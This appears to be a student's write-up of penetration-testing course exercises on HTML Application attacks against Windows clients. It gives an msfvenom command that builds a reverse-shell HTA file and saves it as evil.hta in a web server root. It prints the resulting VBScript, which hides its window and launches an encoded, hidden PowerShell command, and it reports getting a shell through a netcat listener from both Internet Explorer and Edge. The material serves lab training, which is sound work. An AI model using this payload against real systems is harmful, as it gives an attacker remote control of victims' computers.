


### 13.2.2.1 Exercises
#### 1. Use msfvenom to generate a HTML Application and use it to compromise your Windows client.

- Generate the payload

  ```bash
  sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f hta-psh -o /var/www/html/evil.hta
  ```

- Exploit File contents

  ```html
  <script language="VBScript">
      window.moveTo -4000,-4000
      Set yiH = CreateObject("Wscript.Shell")
      Set fx9uBRqUjGQ5 = CreateObject("Scripting.FileSystemObject")
      For each path in Split(yiH.ExpandEnvironmentStrings("%PSModulePath%"),";")
  	    If fx9uBRqUjGQ5.FileExists(path + "\..\powershell.exe") Then
      		yiH.Run "powershell.exe -nop -w hidden -e
  ------SNIPPED------
  AG8AcwB0AGkAYwBzAC4AUAByAG8AYwBlAHMAcwBdADoAOgBTAHQAYQByAHQAKAAkAHMAKQA7AA==",0
        Exit For
      End If
    Next
    window.close()
  </script>
  ```

- Starting a netcat listener on Kali and accessing the file from the client yields a reverse shell:
  

#### 2. Is it possible to use the HTML Application attack against Microsoft Edge users, and if so, how?

I just loaded the same file as above in MS Edge and clicked through the dialogues to run the file, similar to IE, and it created a reverse shell as well.

